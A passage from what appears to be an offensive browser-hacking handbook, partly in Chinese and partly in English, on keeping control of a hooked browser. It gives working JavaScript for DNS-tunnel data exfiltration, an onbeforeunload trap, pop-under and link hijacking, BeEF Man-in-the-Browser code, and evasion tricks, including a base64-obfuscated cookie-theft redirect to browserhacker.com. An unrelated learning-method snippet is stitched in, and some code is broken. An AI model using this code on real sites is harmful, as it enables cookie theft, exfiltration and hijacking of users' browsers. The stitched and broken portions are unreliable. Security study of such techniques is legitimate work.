上述代码之所以需要，是因为域名只能包含字母数字字符以及连字符（-）和点（.）. encode_data() 的结果（使用前面示例中的 data）为：

``` 
646174615F746F657874727564655F66726F6D5F636C69656E745F746F5F736572766572
```

需要考虑的另一个限制是 FQDN（完全限定域名）长度限制为 255 个字符（包括点）。基于这些限制，前面的代码片段可以通过以下方式扩展：

``` 
var max_domain_length = 255;
var max_segment_length = max_domain_length - 
  "browserhacker.com".length;
var dom = document.createElement('b');

// 将字符串分割成块
String.prototype.chunk = function(n) {
  if (typeof n=='undefined') n=100;
  return this.match(RegExp('.{1,'+n+'}','g'));
};

// 发送 DNS 查询
sendQuery = function(query) {
  var img = new Image;
  img.src = "http://"+query;
  img.onload = function() { dom.removeChild(this); }
  img.onerror = function() { dom.removeChild(this); }
  dom.appendChild(img);
};

// 将消息分割成段
segments = _encodedData_.chunk(max_segment_length);
for (seq=1; seq<=segments.length; seq++) {
  // 发送段
  sendQuery(seq+"."+segments.length+"." + 
    segments[seq-1]+".browserhacker.com");
}
```

根据你使用的攻击域名长度以及前面讨论的 FQDN 限制，前面的代码片段负责将编码数据分割成类似下面的块：

``` 
.EA.A9.8F.EA.A9.8C.EA.A9.8D.EA.A9.8A.EA.A9.8B
```

由于数据负载可能远大于仅五个字符的简单字符串，它首先会被分割成块。对每个块，会在 DOM 中添加对应的 `` 元素。使用 `` 标签是因为，当浏览器禁用 DNS 预取时，`src` 属性会先触发 DNS 解析，从而产生 DNS 查询；而加载图像的 HTTP 请求则会在稍后发出。需要注意的是，如果 DNS 服务器返回错误或 “未找到”，随后的 HTTP 请求将永远不会发送。与此同时，DNS 服务器已经处理了客户端发来的数据，这有助于实现更隐蔽的通信。

如果你想实现双向通信，即从服务器向客户端发送数据，则更为困难，但仍然可行。

实现双向通信的一种方法是推断 DNS 查询的时间（即域名解析需要的时间），也就是说根据解析时长来判断服务器想要传输的位值。例如，你可以推断如果域名在不到一秒内解析，服务器想要传输 0；如果解析时间超过一秒，则想要传输 1。通过这种方式，浏览器可以根据二进制表示重构字符串，最终使用 `String.fromCharCode()` 来生成实际字符。

更快的方法是利用成功和失败的连接来表示每一位数据。也就是说，一个域名对应一位数据。通过 JavaScript 可以检测到解析错误，从而确定位的状态。

在下面的示例（如 Figure 3-6 所示），域名 `bit-00000002-0000003d.browserhacker.com` 根据是否能解析返回 1 或 0。

start figure 

**Figure 3-6:** 解析域名



end figure 

在 Figure 3-6 中，查询了两个不同的域名，为了突出差异，箭头指向每个请求中细微不同的字符。一个域名能解析，另一个不能。这就是 DNS 隧道中位状态检测的基础。在此例中，当位被设为 true 时，会返回 IP 地址 74.125.237.136。其原因在本节后面说明，并在 Figures 3-7 和 3-8 中展示。

start figure 

**Figure 3-7:** 返回 1 位



end figure 

Figure 3-7 展示了通过 DNS 隧道返回 1 位的过程。图像成功加载（跨域）后，`onload` 函数被调用，用于标记位的 true 状态。

start figure 

**Figure 3-8:** 返回 0 位



end figure 

Figure 3-8 展示了通过 DNS 隧道传输信息的过程，但这一次传输的是 0 位。图像加载失败（域名不存在），`onerror` 函数被调用，用于标记位的 0 状态。

二进制传输过程会与浏览器通信到你控制的 DNS 服务器，告诉它应该返回哪个 IP 地址以表示 true 状态。随后，服务器可以通过该隧道向浏览器传输数据。

下面的代码示例演示如何从 DNS 隧道中获取字符串（获取 IP 地址的步骤已被省略以简化演示）。IP 地址 74.125.237.136 已硬编码在 DNS 隧道服务器中。

``` 
// 从 DNS 隧道获取字符串（IP 地址已硬编码）
var targetIP = "74.125.237.136";

function resolveAndGetChar(domain) {
  var img = new Image();
  img.src = "http://" + domain + "." + targetIP;
  img.onload = function() {
    // 成功加载 → 1
    return 1;
  };
  img.onerror = function() {
    // 加载失败 → 0
    return 0;
  };
  // 触发 DNS 查找
  img.load();
  // 简单轮询等待回调
  var start = Date.now();
  while (Date.now() - start < 2000) {
    // 最多等待 2 秒
    if (img.complete) break;
  }
  return img.complete ? (img.onload ? 1 : 0) : -1; // -1 = 仍在等待
}

// 示例用法：获取域名 "truebit" 所代表的位值
var domain = "truebit";
var bitValue = resolveAndGetChar(domain); // 1 或 0
console.log("Bit value:", bitValue);
```


-   [费曼学习法](https://wiki.example.org/feynmans_learning_method)的灵感源于诺贝尔物理奖获得者**Richard Feynman**。

1.  运用费曼技巧，你只需花上`20 min`就能深入理解知识点，而且记忆深刻，*难以遗忘*。

```
if (condVar > someVal) {console.log("xxx")}
```


-   使用浏览器事件  
    你是否见过网站在关闭前要求确认的情况？这种行为在某些网站上会非常烦人，尤其是当网站每次点击“确定”后仍然弹出相同的确认框时。

    这正是你可以让受控目标在特定页面上停留更长时间的方法。在某些情况下，停留在钩钓页面几秒钟可以让更多的命令模块被执行。记住，停留时间越长，越好。

    该技术依赖于处理 `window` 对象的 `onbeforeunload` 事件，默认触发条件包括：

    *   当 `unload` 事件发生时 —  — 你关闭了当前标签页、整个浏览器，或简单地离开页面  
    *   当调用 `window.close` 或 `document.close` 时  
    *   当调用 `location.replace` 或 `location.reload` 时  

    以下是一个在所有桌面浏览器（Opera 12 之前除外）中均可工作的基本实现：

    ```javascript
    function display_confirm(){
      if(confirm("Are you sure you want to navigate away from this  
        page?\n\n There is currently a request to the server pending.  
        You will lose recent changes by navigating away.\n\n Press OK   
        to continue, or Cancel to stay on the current page.")){
        display_confirm();
      }
    }

    function dontleave(e){
      e = e || window.event;

      // 如果是 Internet Explorer，语法略有不同
      if(browser.isIE()){
        e.cancelBubble = true;
        e.returnValue = "There is currently a request to the server 
          pending. You will lose recent changes by navigating away.";
      }else{
        if (e.stopPropagation) {
          e.stopPropagation();
          e.preventDefault();
          e.returnValue = "There is currently a request to the server   
            pending. You will lose recent changes by navigating away.";
        }
      }

      // 重新显示确认框，让用户点击“确定”时感到烦扰
      display_confirm();
      return "There is currently a request to the server pending. You  
        will lose recent changes by navigating away.";
    }

    window.onbeforeunload = dontleave;
    ```

    该示例会覆盖已有的 `onbeforeunload` 处理函数并执行 `dontleave` 函数。为进一步防止冲突，使用 `cancelBubble` 方法在 Internet Explorer 中阻止事件冒泡，从而阻止已有函数干扰新代码。根据现有 JavaScript 代码的复杂程度，阻止事件冒泡也是提升性能的好办法。如果有许多嵌套元素，直接覆盖原有代码并阻止冒泡可能是个不错的选择。

    浏览器间的行为略有差异。如图 3-10 和 3-11 所示，Firefox 18 的表现如下：如果受害者点击“取消”，第二个确认框会自动弹出；如果点击“确定”，确认框会在循环中不断重复显示。唯一真正离开页面的操作是点击“离开页面”，如图 3-11 所示。

    start figure  
    **Figure 3-10:** First dialog on Firefox 18 with custom content (controlled with JavaScript)  
      
    end figure  
    start figure  
    **Figure 3-11:** Second dialog on Firefox 18 (can’t be controlled with JavaScript)  
      
    end figure  

    在 Internet Explorer 9（Windows 7）上的行为非常相似，但你可以对对话框文本拥有更多控制，如图 3-12 和 3-13 所示。Figure 3-13 中的第二个对话框文本也可以自定义。总体行为与 Firefox 相同。

    start figure  
    **Figure 3-12:** First dialog box on IE 9 with custom content (controlled with JavaScript)  
      
    end figure  
    start figure  
    **Figure 3-13:** Second dialog box on IE 9 (controlled with JavaScript)  
      
    end figure  

    因此，你可能只想在 Internet Explorer 浏览器上使用此关闭技术，因为 Firefox 和 Chrome 在自定义消息方面的功能受限。

    作为保持持久性的方法，使用这些事件可能为你提供几秒钟的执行时间，但它们并不是理想的长期控制手段。弹出下方窗口（pop-under window）将在下一节中讨论，可能为你提供保留对被钩浏览器控制的新机会。当然，你也可以组合多种技术，通过层叠自定义关闭事件处理例程；使用 IFrames 和弹出下方窗口，你可能会在完成所需命令前保持钩钓时间足够长。

## 使用弹出下方窗口


当你浏览到某个网站时，最让人恼火的莫过于无提示的弹窗。你有多少次被迫反复关闭多个显示广告的弹窗？而弹窗是指在当前浏览器页面前景出现的新浏览器窗口，而弹下（pop-under）则是一个在背景出现的新浏览器窗口，字面上说它位于当前浏览器窗口的下方。大多数现代浏览器默认会阻止弹下的行为。

最简便的使用 JavaScript 打开弹下的方法是使用 `window.open()` 方法。下面的代码在最新版本的 Firefox 和 Chrome 中默认会被阻止：

``` 
window.open('http://example.com','popunder','toolbar=0
  location=0,directories=0,status=0,menubar=0,scrollbars=0,
  resizable=0,width=1,height=1,left='+screen.width+',
  top='+screen.height+'').blur();

window.focus();
```

脚本被阻止的原因是浏览器检测到新窗口将在没有任何用户介入（如明确的鼠标点击）的情况下打开。

你可能会想如何绕过这种限制。第一个值得尝试的解决方案是使用 MouseEvents 在 JavaScript 中通过编程方式模拟鼠标操作。假设你控制一个链接，无论是动态创建它，还是利用 XSS 漏洞在 onClick 属性中触发，类似下面的写法：

```
<a id="malicious_link" href="http://google.com" 
  onclick=" open_link()">Goo</a>
```

现在在同一页面中注入以下 JavaScript：

```
function open_link(){
window.open('http://example.com','popunder','toolbar=0,
  location=0,directories=0,status=0,menubar=0,scrollbars=0,
  resizable=0,width=1,height=1,left='+screen.width+',
  top='+screen.height+'').blur();

window.focus(); 
}

function clickLink(link) {
  var cancelled = false;
  if (document.createEvent) {
    var event = document.createEvent("MouseEvents");
    event.initMouseEvent("click", true, true, window,
      0, 0, 0, 0, 0, false, false, false, false, 0, null);
    link.dispatchEvent(event);
  }else if(link.fireEvent){
    link.fireEvent("onclick");
  }
}
clickLink(document.getElementById('malicious_link'));
```

上述代码会让浏览器执行 `clickLink()` 函数，该函数会在 ID 为 `malicious_link` 的 `<a>` 元素上触发 `window.open` 调用。遗憾的是，这个实验仍然会失败，因为用 JavaScript 创建的 MouseEvent 与真实的用户点击不相同。

为了绕过这一限制，与其依赖创建鼠标事件，不如更巧妙地使用 JavaScript 在现有页面链接上添加或覆盖 onClick 属性。这一技巧在“Man-in-the-Browser”攻击章节中会被进一步展开。

下面的代码会遍历页面上所有的 `<a>` 标签，为它们添加一个 onClick 属性，使其在被点击时打开弹下。`$.popunder()` 是由 Hans-Peter Buniat 编写的 jQuery 插件，用于创建跨浏览器的弹下窗口。

```
var anchors = document.getElementsByTagName("a");

for (var i = 0; i < anchors.length; i++) {
 if(anchors[i].hasAttribute("onclick")){
   anchors[i].removeAttribute("onclick");
 }
 // the aPopunder object is defined in the next code snippet
 anchors[i].setAttribute("onclick", "$.popunder(aPopunder)")
}
```

当用户点击页面上的链接时，href 属性指向的 URI 会被打开，同时弹下窗口也会出现。默认情况下，现代浏览器并不会阻止弹下窗口。唯一例外的是 Opera 浏览器。

为了更加隐蔽，你可以把弹下窗口精确地放在当前浏览器窗口的正后方。可以通过 `window.screenX` 和 `window.screenY` 来获取当前窗口的位置。弹下窗口的高度和宽度至少要设为 1 像素，因为 0 像素会被大多数浏览器阻止。不过在大多数情况下，弹下窗口的尺寸会大于 1 像素（如 Figure 3-14 所示）。注意，弹下窗口被手动放在主浏览器窗口的左侧，否则会不可见：

 start figure 

**Figure 3-14:** 不同浏览器中弹下窗口的尺寸



 end figure 

有了这些信息，你可以如下修改 `$.popunder()` 函数：

```
var aPopunder = [
  ['http://browserhacker.com', {"window": {height:1,
    width:1, left:window.screenX, top:window.screenY}}];
$.popunder(aPopunder)
```

当用户点击被动态修改的链接（如上文所示）时，指向 http://browserhacker.com 的弹下窗口会被加载。此技术的目标是加载包含 JavaScript 钩子的资源。如果你能将其与“Man-in-the-Browser”或 iframe 技术结合，就能在受害者关闭当前被钩住的标签页时，仍保持钩子的持久性。


# Man-in-the-Browser vs. Man-in-the-Middle Attacks

Man-in-the-Browser（MitB）攻击与 Man-in-the-Middle（MitM）攻击的区别在于，MitM 通常指网络层的窃听攻击，而 MitB 指的是在应用层或更确切地说在浏览器层面的窃听攻击。与 MitM 类似，MitB 会将原本发送给合法服务器的数据中转到攻击者。银行恶意软件（如 SpyEye 和 Zeus15）广泛使用 MitB 技术，以在用户访问银行网站时篡改浏览器渲染的内容。页面内容会以多种方式被修改，最终结果往往是修改后的 HTML 页面外观，用于显示假内容。例如，银行网站的登录页可能被修改，声称银行引入了新的“安全”功能。用户可能被要求提供更多信息，如出生日期、母亲的婚前姓氏，甚至二次验证数据（例如 RSA 一次性 PIN 码）。之所以这些攻击难以被发现，是因为它们完全在客户端进行，通常不被 Web 服务器感知，这往往限制了服务器端防御措施或 Web 应用防火墙的有效性。这些攻击可以通过多种方式实施。一种技术是拦截已感染机器访问目标银行网站时的流量，并在返回新 HTML 内容之前对其进行修改，以便浏览器渲染前完成篡改。另一种技术是注入自定义 JavaScript，动态覆盖页面行为，中毒已有的 Web 应用逻辑并添加新内容。

* * *

end feature 

## Hijacking AJAX Calls

MitB 攻击旨在劫持 AJAX GET 和 POST 请求，并且在同源和跨源场景中均可工作。这些攻击得益于 JavaScript 和 DOM 的灵活性，其中 JavaScript 能够重写内置 DOM 方法的原型。

原型重写是 MitB 攻击用来劫持 AJAX 请求的一种技巧。下面是 BeEF 的代码片段，展示了如何重写 XMLHttpRequest 原型对象的 open 方法以实现自定义逻辑。你不能直接复制这段代码，因为它依赖于 BeEF 的其他特性。

``` 
init:function (cid, curl) { 
  beef.mitb.cid = cid;
  beef.mitb.curl = curl;
  /*Override open method to intercept ajax request*/
  var xml_type;
  var hook_file = "<%= @hook_file %>";

  if (window.XMLHttpRequest && !(window.ActiveXObject)) {
    beef.mitb.sniff("Method XMLHttpRequest.open override");
    (function (open) {
      XMLHttpRequest.prototype.open = function (method, url, 
         async, mitb_call) {
      // Ignore it and don't hijack it.
      // It's a request part of the hook polling process
      if (mitb_call || (url.indexOf(hook_file) != -1 || \
        url.indexOf("/dh?") != -1)) {
          open.call(this, method, url, async, true);
      } else {
       var portRegex = new RegExp(":[0-9]+");
       var portR = portRegex.exec(url);
       var requestPort;
       if (portR != null) { requestPort = portR[0].split(":")[1]; }

       //GET request
       if (method == "GET") {
           //GET request -> cross-origin
           if (url.indexOf(document.location.hostname) == -1 || \
            (portR != null && requestPort != document.location.port )){
              beef.mitb.sniff("GET [Ajax CrossDomain Request]: " + url);
              window.open(url);
           }else {
           //GET request -> same-domain
                beef.mitb.sniff("GET [Ajax Request]: " + url);
                if (beef.mitb.fetch(url,
                  document.getElementsByTagName("html")[0])){
                var title = "";
                if(document.getElementsByTagName("title").length == 0){
                    title = document.title;
                } else {
                    title = document.getElementsByTagName(
                     "title")[0].innerHTML;
                }
                    // write the url of the page
                    history.pushState({ Be:"EF" }, title, url);
                }
           }
       }else{
       //POST request
         beef.mitb.sniff("POST ajax request to: " + url);
         open.call(this, method, url, async, true);
        }
       }
    };
  })(XMLHttpRequest.prototype.open);
  }
},
```

在 init 函数被调用后，每次使用 XMLHttpRequest.open 时，其行为都会根据自定义的重写实现发生变化：

Level1 **1.** 检查请求是否由 MitB 本身发起，或是否属于钩子通信通道。在后者情况下不进行劫持；**2.** 如果请求方法是 GET，判断请求是否为同源或跨源。**3.** 如果是同源请求，加载资源并在当前页面显示其内容，同时保持钩子存活。将页面标题恢复为原始标题，并使用 history 对象（history.pushState）将 URL 栏内容替换为正确的资源 URI。**4.** 如果是跨源请求，则直接在新标签页（window.open）中打开资源，以保持当前标签页中的钩子存活。**5.** 如果方法是 POST，则直接执行请求。

/Level1

### Hijacking Non-AJAX Requests

非 AJAX 的 GET 和 POST 请求也可以被劫持。类似于 AJAX 资源，普通资源会被 MitB 代码预取并篡改默认行为（即链接和表单的中毒）。例如，如果页面包含指向同源资源的 <a> 标签，MitB 会在该标签上添加 onClick 事件属性，以执行 JavaScript 函数。用户点击链接时，默认的 GET 请求会被阻止，取而代之的是新的 onClick 事件处理函数。如果该链接已经包含 onClick 属性，MitB 会替换该方法，调用不同的函数。下面是 BeEF 的示例代码：

``` 
// Fetches a hooked link with AJAX
    fetch:function (url, target) {
        try {
            var y = new XMLHttpRequest();
            y.open('GET', url, false, true);
            y.onreadystatechange = function () {
                if (y.readyState == 4 && y.responseText != "") {
                    target.innerHTML = y.responseText;
                }
            };
            y.send(null);
            beef.mitb.sniff("GET: " + url);
            return true;
        } catch (x) {
            window.open(url);
            beef.mitb.sniff("GET [New Window]: " + url);
            return false;
        }
    },

// Hooks anchors and prevents them from linking away
    poisonAnchor:function (e) {
        try {
            e.preventDefault;
            if (beef.mitb.fetch(e.currentTarget, 
              document.getElementsByTagName("html")[0])) {
               var title = "";
               if(document.getElementsByTagName("title").length == 0){
                title = document.title;
               }else{
                title = document.getElementsByTagName(
                 "title")[0].innerHTML;
               }
                history.pushState({ Be:"EF" }, title, e.currentTarget);
            }
        } catch (e) {
          console.error('beef.mitb.poisonAnchor - failed to execute: '+
            e.message);
        }
        return false;
    },

var anchors = document.getElementsByTagName("a");
var lis = document.getElementsByTagName("li");

        for (var i = 0; i < anchors.length; i++) {
            anchors[i].onclick = beef.mitb.poisonAnchor;
        }
      
        for (var i = 0; i < lis.length; i++) {
            if (lis[i].hasAttribute("onclick")) {
                lis[i].removeAttribute("onclick");
                /*clear*/
                lis[i].setAttribute("onclick", "beef.mitb.fetchOnclick(
                 '"+lis[i].getElementsByTagName("a")[0] + "')");
                /*override*/

            }
        }
```


The `fetchOnclick` function is similar to the `fetch` function, and has been omitted. You can find the full source code at [`browserhacker.com`](https://browserhacker.com).

`Poisoning` forms is similar to poisoning links. The only difference is that it requires a bit more logic because the form fields need to be parsed while the `onSubmit` event is triggered. The result is the same, so the POST request is sent using AJAX, and the target innerHTML is then updated with the proper content, while in the background the hook is still working. The target is unlikely to spot the attack because there are no changes to the look and feel of the page. The only potential indicator of the attack is opening cross-origin links in new tabs, instead of the current window.

start feature 

* * *

**From Monitoring to Expanding the Attack Surface** It must be noted that user activity, for example which links are clicked and which forms (including data) are submitted, can be logged and made available to you. This is useful in situations where the user is clicking on cross-origin links. In this particular case, thanks to the Same Origin Policy, loading the resource via AJAX obviously won’t be successful. If this happens, the link is simply opened in a new tab, preventing the loss of the hook because the already hooked tab remains open. You can’t control the newly opened tab, because it’s a different origin. However, you can determine what its URL is, because you have full control of the page DOM. At this point you can attempt to expand the attack surface by running XssRays on the target resource to look for XSS vulnerabilities. If further flaws are discovered, they can be used to hook the new origin by exploiting the XSS, resulting in the control of the origin loaded in the second tab too. This attack technique with XssRays is covered in Chapter 9. 

* * *

end feature 

As with all of the techniques available for maintaining a persistent communication channel, there will always be varying degrees of success. One of the potential issues with using MitB logic is handling complex JavaScript-based applications. For instance, when an already existing `onClick` attribute is poisoned through the MitB functionality, some previous code might get overridden, because the legitimate function is simply replaced. A way to overcome this limitation is using `addEventListener`, or `attachEvent` in the case of Internet Explorer, to dynamically call a new function when the same event is triggered16. Using such an approach allows for stacking event handlers, so the new injected ones are called after the existing ones executed. The same problem occurs when appending the response of a poisoned AJAX request to the right page fragment. MitB techniques work well in many situations, but be aware that you may need to customize the default behavior for targeted attacks in complex JavaScript-based web applications.

# Evading Detection

Evading detection from Web Application Firewalls, inspecting web proxies or client-side heuristic Anti-Virus technology is a cat-and-mouse game. Security researchers often find new evasion techniques that work for a period of time. When the techniques become public knowledge, defenders start to implement detection techniques, and the current evasion technique becomes less effective. Translating this into pseudo-code may look like this:

```
loop
 develop_evasion()
 use_it_in_the_wild()
 sleep 10
 defenders_become_aware()
 sleep 20
 defenders_implement_detection()
end
```

Don’t forget that the time it takes for a detection mechanism to be implemented universally may be considerable; the evasion technique will still continue to work in all those environments where the detection is not yet in place. Chaining evasion techniques together can also assist with trying to avoid detection. This will not evade the best human mind if manual analysis is in place, but it will be very effective with proxies and other security devices that inspect the content of HTTP or other protocols.

Imagine a Russian nesting doll (matryoshka), where each layer is a different evasion technique, and the real JavaScript code is then nested inside. Bear in mind that obfuscating JavaScript will not prevent the browser from understanding your code.

Various techniques to help reduce the likelihood that your JavaScript code is detected are presented in the following sections. Each discussed technique has been implemented as an extension within the BeEF framework.

Bear in mind that encoding and obfuscation should not be used to achieve confidentiality of your data. With enough time, every obfuscation technique can be defeated.

## Evasion using Encoding

The first and easiest way to hide the code you want to execute is by encoding it. In this context, encoding and decoding is the process of transforming code from one format into another. Many different encodings and techniques are available within a browser. Some of them are as simple as using base64 to encode a plaintext string. Others are more advanced and rely on particular aspects of the JavaScript language, such as non-alphanumeric codes.

### Base64 Encoding

A common detection technique used to evaluate potentially malicious JavaScript is to implement Regex-based filters that search for `eval`, `document.cookie`, or other keywords that can be potentially used for malicious purposes. If you wanted to steal a web application’s cookies, not marked as HttpOnly, you would execute:

```
location.href='http://browserhacker.com?c='+document.cookie 
```

This code will send the cookies to your site. Unfortunately, the original site’s filter may detect the `document.cookie` reference and filter it out. To hide the `document.cookie` code you can base64-encode it, and the attack vector becomes:

```
eval(atob("bG9jYXRpb24uaHJlZj0naHR0cDovL2F0dGF"+
 "ja2VyLmNvbT9jPScrZG9jdW1lbnQuY29va2ll"));
```

The Regex-based filter unfortunately still blocks the vector because the blacklisted `eval` keyword is still present. There are multiple different ways to get access to the window object, which can help achieve eval behavior by using different statements. For example:

```
 [].constructor.constructor("code")();
```

Another method is to use either the `setTimeout()` or `setInterval()` functions (or even `setImmediate()` in newer browsers) all of which evaluate JavaScript functions. Note in the instance of the `setTimeout()`function that the second argument, which specifies a millisecond delay before calling the function, is not mandatory. If not specified, the function is called immediately. Using `setTimeout()`, the final code will be:

```
setTimeout(atob("bG9jYXRpb24uaHJlZj0naHR0cDovL2Jyb3"+
"dzXJoYWNrZXIuY29tP2M9Jytkb2N1bWVudC5jb29raWU"));
```

This code snippet bypasses the Regex-based filter mentioned earlier and demonstrates a method in which multiple evasion techniques can be chained together.

Base64 is not the only way to encode data. Plenty of other methods are available too. For example URL encoding, double URL encoding, Hex encoding, Unicode escapes and so on.

 start feature 

* * *

**Packing JavaScript** Packing and minifying of JavaScript can also be useful to evade detection, especially if combined with random variables and other techniques described in the following sections. The processing of minifying involves removing all the unnecessary characters from your code without impacting its ability to run. Packing, on the other hand, is more analogous to compression, and often involves shortening variable names and other function calls. Consider the following code snippet, which is analyzed further in the “Random Variables and Methods” section: 

```
var malware = {
    version: ‘0.0.1-alpha’,
    exploits: new Array(“http://malicious.com/aa.js”,””),
    persistent: true
};
window.malware = malware; 


function redirect_to_site(){
    window.location = window.malware.exploits[0]; 
};

redirect_to_site();
```


After packing this code with Dean Edwards’ Packer,17 the result will be: 

```
eval(function(p,a,c,k,e,r){e=function(c){return c.toString(a)};
if(!’’.replace(/^/,String)){while(c--)r[e(c)]=k[c]||e(c);
k=[function(e){return r[e]}];e=function(){return'\\w+'};
c=1};while(c--)if(k[c])p=p.replace(new RegExp(‘\\b’+e(c)+
‘\\b’,’g’),k[c]);return p}(‘b 2={7:\’0.0.1-i\’,4:8 9(
“a://6.c/d.e”,””),f:g};3.2=2;h 5(){3.j=3.2.4[0]};5();’,
20,20,'||malware|window|exploits|redirect_to_site|malicious
|version|new|Array|http|var|com|aa|js|persistent|true|
function|alpha|location'.split(‘|’),0,{}))
```

As you can see, function and variable names like malware, window, and exploits are still very clear at the bottom of the snippet. The following is the same code, but packed after randomizing variables and methods names: 

```
eval(function(p,a,c,k,e,r){e=function(c){return c.toString(a)};
if(!’’.replace(/^/,String)){while(c--)r[e(c)]=k[c]||e(c);
k=[function(e){return r[e]}];e=function(){return'\\w+'};c=1};
while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+
'\\b','g'),k[c]);return p}('h 1={a:\'f\',3:6 7(
"8://9.5/b.c",""),d:e};2.1=1;g 4(){2.i=2.1.3[0]};
4();',19,19,'|uxGfLVC|window|egCSx|HrhB|com|new|
Array|http|malicious|sXCrv|aa|js|LctUZLQnJ_gp|
true|ZEpXkhxSMz|function|var|location'.split('|'),0,{}))
```

You can clearly see the difference between the two packed snippets. 

* * *

 end feature 

### Whitespace Encoding

A very crafty encoding technique, presented by Kolisar at DEFCON 16, is WhiteSpace encoding.18 The idea behind this technique is to binary-encode ASCII values using whitespace characters. If you map the Tab character to 0 and the Space character to 1, you can encode your data with just these two characters. The result is nothing but whitespace, hence the name of the technique. A lot of automated de-obfuscation tools ignore whitespaces, so this technique comes in handy to make de-obfuscation more difficult.

You can use this sample Ruby implementation to generate the encoded JavaScript before using it in your attacks:

```
def whitespace_encode(input)                 
    output = input.unpack('B*') 
    output = output.to_s.gsub(/[\["01\]]/, \ 
'[' => '', '"' => '', ']' => '',  '0' => "\t", '1' => ' ')
end

encoded = whitespace_encode("alert(1)")
File.open("whitespace_out.js", 'w'){|f| f.write(encoded)}
```

As you can see, input into the whitespace_encode() function is converted to a binary representation, then 0 is mapped to Tab and 1 is mapped to Space. The result is written to a new file, enabling you to copy and paste it more easily. The code needs a boot-strapper in order to properly decode and evaluate the input. The following JavaScript implementation includes the whitespace_encoded variable from earlier:

```
// the TABs are likely to be not working
// if you copy and paste the code from here.
// make sure you try the browserhacker.com code snippet.
var whitespace_encoded = "                            ";
function decode_whitespace(css_space) {
  var spacer = '';
  for(y = 0; y < css_space.length/8; y++){
    v = 0;
    for(x = 0; x < 8; x++){
      if(css_space.charCodeAt(x+(y*8)) > 9){
        v++;
      }
      if(x != 7){
        v = v << 1;
      }
    }
    spacer += String.fromCharCode(v);
  }return spacer;
}
var decoded = decode_whitespace(whitespace_encoded)
console.log(decoded.toString());
window.setTimeout(decoded);
```

